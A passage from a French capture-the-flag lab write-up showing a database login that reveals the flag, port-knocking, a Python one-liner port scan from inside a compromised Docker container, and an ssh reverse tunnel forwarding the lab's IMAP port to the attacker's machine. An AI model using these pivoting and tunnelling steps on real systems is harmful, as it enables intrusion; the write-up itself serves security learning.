 ```plain
$ psql -h 192.168.0.3 -U TheRedWomanMelisandre braavos
Password for user TheRedWomanMelisandre:
psql (9.5.9, server 9.6.4)
WARNING: psql major version 9.5, server major version 9.6.
         Some psql features might not work.
Type "help" for help.

braavos=> \dt
                   List of relations
 Schema |            Name            | Type  |  Owner
--------+----------------------------+-------+----------
 public | temple_of_the_faceless_men | table | postgres
(1 row)

braavos=> select * from temple_of_the_faceless_men;
               flag               |                                                    text
----------------------------------+-------------------------------------------------------------------------------------------------------------
 3f82c41a70a8b0cfec9052252d9fd721 | Congratulations. You've found the secret flag at City of Braavos. You've served well to the Many-Faced God.
(1 row)
```

IMAP... Bravos risques et périls !
----------------------------------

D'après la carte la prochaine étape est le port 143 (IMAP). On est sûr d'après les indices qu'il y a un port-knocking à faire mais la commande suivante échoue à nous ouvrir le port :  

```bash
nmap -sT -T polite -p3487,64535,12345 -r 192.168.0.3
```

Le shell que l'on a récupéré avec l'exploit webmin a les droits root... mais on est dans un conteneur *Docker*. De nombreux outils standards ne sont pas présents (ps, netstat, ifconfig, etc) et il faut les uploader sur le système (avec les librairies associées) pour avoir un environnement utilisable pour nos investigations.  

Au lieu d'uploader Nmap et ses nombreuses dépendances j'ai scanné les ports depuis le conteneur avec un one-liner Python :  

```python
[time.sleep(.005) or socket.socket().connect_ex(("192.168.0.3", port)) for port in (3487,64535,12345,143)]
[111, 111, 111, 0]
```

La dernière valeur (0) nous indique que la connexion au port 143 s'est bien ouverte après avoir tapé sur les autres ports :-)   

Dialoguer avec le serveur IMAP depuis un shell aussi basique n'est pas agréable, heureusement je peux forwarder le port jusqu'à mon système via ssh (à uploader préalablement sur le système) :  

```bash
ssh -R 9999:172.21.0.1:143 -fN devloop@192.168.0.16
```
